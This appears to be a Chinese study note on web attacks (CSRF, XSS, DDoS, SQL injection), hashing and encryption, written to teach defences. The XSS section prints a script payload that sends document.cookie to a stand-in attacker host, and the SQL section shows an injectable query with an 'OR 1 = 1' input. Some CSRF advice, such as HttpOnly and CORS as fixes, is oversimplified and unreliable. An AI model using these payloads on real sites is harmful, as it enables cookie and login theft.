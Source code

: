 ## 网络攻击

### CSRF攻击

全称是跨站请求伪造（Cross Site Request Forgery）。

`CSRF`是通过伪装来自受信任的用户的请求来利用受信任的网站。攻击者盗用了用户的身份，以用户的名义向第三方网站发起恶意请求，可能会利用用户的身份进行转账等危险操作。

**简介：**用户A登录了网站B，网站B在用户A的浏览器上存了`cookie`信息，这时候用户A没有登出网站B，转换又去访问网站C，网站C中有一个链接点击后会对网站B发起恶意访问请求。用户A点击后，对网站B发起了请求。如果没有跨域访问限制，这时候网站B便执行了用户A的请求，导致恶意转账等结果。

**解决手段：**

1. 将`cookie`设置为`HttpOnly`，这样就不能通过js去获取`cookie`信息了。

2. 增加 `token`：

   在请求中放入攻击者所不能伪造的信息，并且该信息不存在与`cookie`中。例如在请求中以参数形式加入一个随机生成的`token`，并且在服务端进行`token`校验，如果请求中没有有效的`token`，则拒绝该请求。

   假设请求通过`POST`方式提交，则可以在相应的表单中增加一个隐藏域：`<input type="hidden" name="csrf_token" value="csrf_token_value">`，`token` 的值通过服务端生成，表单提交后`token`的值通过 `POST` 请求与参数一起带到服务端，每次会话可以使用相同的`token`，会话过期 `token` 失效，攻击者无法获取`token`，所以也就无法伪造请求。

3. `cros`跨域资源共享：

   > `cros`配置：
   >
   > 1. 服务器配置可以发起访问的域，以及请求方法，请求头部信息。
   > 2. 对于简单请求，用户在发送请求时，浏览器会自动添加 `Origin` 头部信息。
   > 3. 对于复杂请求，浏览器先发送一次带有 `Origin` 字段的 `OPTION` 请求，检测是否允许跨域访问，然后再发送真实请求。
   > 4. 服务器会判断请求头部的`Origin`信息是否在已配置的 `AllowedOrigin` 中。
   > 5. 服务器响应头部信息中包含配置的 `Access-Control-Allow-Origin` 以及是否允许携带cookie等字段。
   > 6. 浏览器检测到 `Origin` 字段中的值若存在于  `Access-Control-Allow-Origin` 字段中便会将数据显示给用户。
   > 7. 浏览器检测到 `Origin` 字段中的值不存在于  `Access-Control-Allow-Origin` 字段中便会忽略响应，并报错。

   `cors`跨域资源共享可以有效的抵御`csrf`攻击，用户A浏览网站C时发起恶意请求时，由于恶意请求属于非简单请求，浏览器会先发送一次带有 `Origin` 字段的 `OPTION` 请求，检测是否允许跨域访问，这时浏览器响应头部信息的 `Access-Control-Allow-Origin` 字段中没有 `Origin` 字段的值，因此不会发起真正的请求。



### XSS攻击

全称是跨站脚本攻击（Cross Site Scripting）。

**简介：** 攻击者在网页中嵌入恶意脚本程序，当用户打开该网页时，脚本程序便开始在用户的浏览器上执行，盗取用户的 `cookie` 、用户名密码、下载执行病毒木马程序，甚至是获取客户端admin权限。

**原理：** 我现在做了个博客系统，然后有一个用户在博客上发布了一篇文章，内容是`<script>window.open("www.gongji.com?param="+document.cookie)</script>`，如过我没有对它做处理，直接存到数据库里，当别的用户读取文章后，浏览器会执行这段js脚本，然后发起恶意攻击。

**解决手段：**对用户输入的数据进行过滤和转义。

### DDos攻击

全称是分布式拒绝服务（Distributed Denial of Service）。

**简介：**是目前最强大、最难以防御的攻击方式之一。攻击者利用很多设备在同一时间对目标进行大量访问请求，耗尽服务器资源，导致服务器无法正常响应。

**解决方案：**

- DDos攻击很难有效防御，可以通过购买更多的带宽

- 使用多台服务器，并部署在不同的数据中心
- 将静态资源部署到CDN上，利用CDN，就近访问，提高访问速度，同时又避免了服务器被攻击
- 开启路由器反ip欺骗

### SQL注入攻击

SQL注入就是把SQL命令伪装成正常的HTTP请求参数，传递到服务端，欺骗服务器执行恶意的SQL命令。

**简介：**我现在做了个网站，用户登录时，调用的后台接口中有一段代码中SQL语句是这么写的：`"SELECT username FROM user WHERE username = " + username + " AND password = (" + password + ")"`，用户如果输入的用户名是 `xxx`，密码是 `password OR 1 = 1`，那么这条SQL语句将会查询出用户的信息，并且可以绕过检查直接登录成功。

**解决方案：**

- 使用预编译的语句，预编译语句使用参数占位符来替代需要动态传入的参数，这时程序会将用户输入的 `password OR 1 = 1`当做普通字符串来处理，攻击者便无法概念SQL语句的结构。
- 使用`ORM`框架，流行的`ORM`框架都对相应的关键字进行了转义。
- 避免以明文方式存放密码，这样攻击者便无法通过SQL注入攻击获取用户的密码。

## 数字摘要

数字摘要也称为消息摘要，它是一个唯一对应于一个消息的固定长度的值，由一个单向`Hash`函数对消息进行计算而产生。接受者对收到的消息采用相同的`Hash`函数重新计算，将新生成的摘要与原摘对比，如果不相同，则说明消息在传递的过程中改变了。

消息摘要的特点：

1.  长度固定，与消息长度无关。
2.  一般不同消息生成的摘要不同，相同的消息生成的摘要一定相同。
3.  不能重摘要中恢复原消息。

### MD5

`MD5`是数字摘要算法的一种实现，它可以从任意长度的明文字符生成128位的hash值。

MD5算法的过程分为四步：处理原文，设置初始值，循环加工，拼接结果。

1.  先计算出原文比特长度，然后对512求余，如果余数不等于448，就填充原文使得原文对512求余的结果等于448。填充的方法是第一位填充1，其余位填充0，填充完后，信息的长度就是 512 * N + 448。用剩余的位置64位记录原文的真正长度，这样处理后的信息长度就是 512 * (N + 1)。
2.  MD5的哈希结果长度为128位，按每32位分成一组共4组。这4组结果是由4个初始值A、B、C、D经过不断演变得到。
3.  循环加工，每一次循环都会让旧的A、B、C、D产生新的A、B、C、D。假设处理的原文长度是M，主循环次数 = M / 512，每个主循环中包含 512 / 32 * 4 = 64次子循环。所以消息越大，MD5运算越慢。
4.  拼接结果。

### SHA

`SHA`是安全散列算法，它可以从任意长度的明文字符生成160位的hash值。由于生成的摘要信息更长，运算更加复杂，所以比`MD5`运行速度慢，但是也更安全。

### Base64编码

由于计算出的摘要需要转换为字符串，可能会产生一些无法显示或者网络传输的控制字符，所以需要对摘要字符串进行编码。

`Base64`是一种基于64个可打印字符来表示二进制数据的方法，由于 `2 ^ 6 = 64` ，所以每6位字符为1个单元，3个字节刚好对应4个 `Base64` 单元，即3个字节用4个可打印字符表示。

`Base64` 只是一种编码算法，可以通过固定的方法逆向得到编码之前的信息，所以不能作为一种加密算法使用。

## 对称加密算法

即加密和解密使用同一个秘钥的加密算法。

对称加密算法的特点：

-   算法公开
-   计算量小
-   加密速度快
-   加密效率高
-   安全性依赖于秘钥，秘钥一旦泄露就失去了安全性

常见的对策加密算法有：`DES`算法、`3DES`算法、`AES`算法等。

## 非对称加密算法

非对称加密算法需要公钥和私钥配对使用。用公钥加密，只有私钥才能解密；使用私钥加密，只有公钥才能解密。

非对称加密算法的特点：

-   只要保证私钥的安全性就能保证加密算法的安全性
-   只需要传递公钥，大大提高了秘钥传输的安全性
-   由于算法的复杂性，其加解密速度远慢于对称加密算法

非对称加密算法实现机密信息交换的基本过程：

1.  甲生成一对秘钥，并把一把作为公钥，向其他人公开。
2.  乙得到该公钥后使用它对机密信息进行加密后发生给甲。
3.  甲使用私钥对加密后的信息进行解密得到原文。

为了达到时间和安全的平衡，通常利用对称加密算法加密较长的文件，用非对称加密算法传递加密文件的对称加密算法的秘钥。

常见的非对称加密算法：`RSA`算法。